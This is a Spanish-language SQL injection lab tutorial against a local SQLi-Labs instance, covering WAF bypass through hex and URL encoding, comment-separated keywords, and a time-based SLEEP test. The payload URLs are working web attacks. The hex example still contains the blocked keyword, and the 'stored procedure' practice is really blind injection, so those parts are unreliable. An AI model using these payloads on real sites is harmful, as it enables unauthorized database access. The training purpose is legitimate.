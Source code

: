 # **🛠️ Parte 2: Técnicas Avanzadas de SQL Injection**

## **🔹 Práctica 11: Bypass de WAFs con Codificación Hexadecimal y Unicode**

📌 **Objetivo**: Saltar filtros que bloquean palabras clave (`SELECT`, `UNION`, etc.).

**Pasos:**
1️⃣ Normalmente, una consulta vulnerable sería:

```sql
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,database(),3 -- -
```

📌 **Si un WAF bloquea `UNION`**, podemos codificarlo en **Hexadecimal**:

2️⃣ **Versión en Hexadecimal** (Usando `0x` para representar valores hex):

```sql
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,0x6461746162617365,3 -- -
```

📌 **Resultado esperado:** `database` en formato texto.

3️⃣ **Versión en Unicode**:

```sql
http://localhost/sqli-labs/Less-1/?id=-1 %55NION %53ELECT 1,database(),3 -- -
```

📌 **Si `UNION` está bloqueado, el uso de `%55NION` puede saltar el filtro.**

## **🔹 Práctica 12: Evasión de Filtrado con Comentarios**

📌 **Objetivo**: Saltar filtros que bloquean espacios o palabras clave.

**Pasos:**
1️⃣ Si el WAF bloquea espacios, usa comentarios en SQL:

```sql
http://localhost/sqli-labs/Less-1/?id=-1/**/UNION/**/SELECT/**/1,database(),3-- -
```

📌 **El uso de `/\**/` evita la detección de `UNION SELECT`.**

## **🔹 Práctica 13: Inyección en Procedimientos Almacenados**

📌 **Objetivo**: Explotar procedimientos almacenados inseguros.

**Pasos:**
1️⃣ Ejecuta una consulta en SQLi Labs:

```sql
http://localhost/sqli-labs/Less-5/?id=1' AND (SELECT SLEEP(5)) -- -
```

📌 **Si la página tarda 5 segundos en responder, la inyección ha sido exitosa.**
